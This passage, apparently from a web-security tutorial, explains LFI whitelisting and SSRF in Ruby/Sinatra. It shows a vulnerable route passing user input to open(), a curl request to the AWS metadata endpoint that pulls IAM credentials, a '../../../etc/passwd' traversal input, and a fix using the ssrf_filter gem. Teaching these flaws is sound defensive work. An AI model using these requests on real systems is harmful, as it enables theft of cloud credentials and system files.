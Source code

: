 So if you call the function function like `lfi_whitelist("../../../etc/passwd")`, the function won't return anything.

## SSRF Vulnerability in Rails Application:

SSRF vulnerability in rails applications happens if you pass user input directly in `open("user_input_url").read` function of the rails. 

```ruby
require 'sinatra'
require 'open-uri'

get '/' do
  format 'RESPONSE: %s', open(params[:url]).read
end
```

Since this will load any arbitrary URL, So we can exploit this by sending calls to AWS metadata URL and can extract identity credentials keys of the ec2 instance.

So the simple curl request to exploit this should look like:

`curl -X GET --url "localhost:4567/?url=http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]`

and you will able to extract keys:

```
RESPONSE: {
  "Code" : "Success",
  "LastUpdated" : "2021-03-22T07:54:05Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "Aredacted",
  "SecretAccessKey" : "redacted",
  "Token" : "redacted",
  "Expiration" : "2021-03-22T14:06:53Z"
}
```

### Fix SSRF vulnerabilities:

You can fix SSRF vulnerabilites using the gem [ssrf_filter](https://github.com/arkadiyt/ssrf_filter). 

```ruby
require 'ssrf_filter'

get '/' do
	response = SsrfFilter.get(params[:url])
	puts response.body
end
```

Here is the recent SSRF write-up, I have identifed where wicked pdf was being used. [SSRF to local File Read](http://hassankhanyusufzai.com/SSRF-to-LFI/)
